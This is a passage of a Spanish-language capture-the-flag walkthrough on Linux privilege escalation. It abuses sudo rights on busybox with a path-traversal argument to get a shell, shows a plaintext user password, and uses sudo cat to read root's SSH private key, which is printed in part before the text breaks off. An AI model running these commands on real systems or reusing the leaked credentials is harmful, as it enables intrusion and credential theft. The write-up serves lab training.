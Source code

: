 **BusyBox** es una herramienta fundamental en el mundo Linux, especialmente en sistemas embebidos y entornos con recursos limitados.
Es un **binario único** que combina versiones simplificadas de más de 300 comandos comunes de Unix/Linux en un solo ejecutable pequeño (típicamente 1-2 MB). Se le conoce como la **"navaja suiza de Linux embebido"**.
Ahora sabiendoe esto y que podemos ver la lista de cosas que podemos ejecutar con este binario:
```bash
busybox --list
```

Ahora nos aprovechamos de esto ya que podemos lanzar una **sh** como este usuario:
Para poder escapar del directorio tenemos que usar **pathTraversal**
```bash
sudo -u capa /usr/local/bin/busybox /nothing/../../usr/bin/sh
```
###### Usuario `[ capa ]`:
Ahora que tenemos una sesion como este usuario, Reseteamos la sh
Listando los archivos de este usuario tenemos lo siguiente: **passwd.txt**
```bash
cat passwd.txt 
capa:capaelmejor
```

Listando los permisos del usuario:
```bash
sudo -l

User capa may run the following commands on 82aade8ab41b:
    (ALL : ALL) NOPASSWD: /bin/cat # Tenemos una via potencial de migrar root
```

Nos aprovechamos de este binario para robar su clave **ssh** de **root**:
```bash
sudo -u root /bin/cat /root/.ssh/id_rsa
```

```bash
-----BEGIN OPENSSH PRIVATE KEY-----
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
```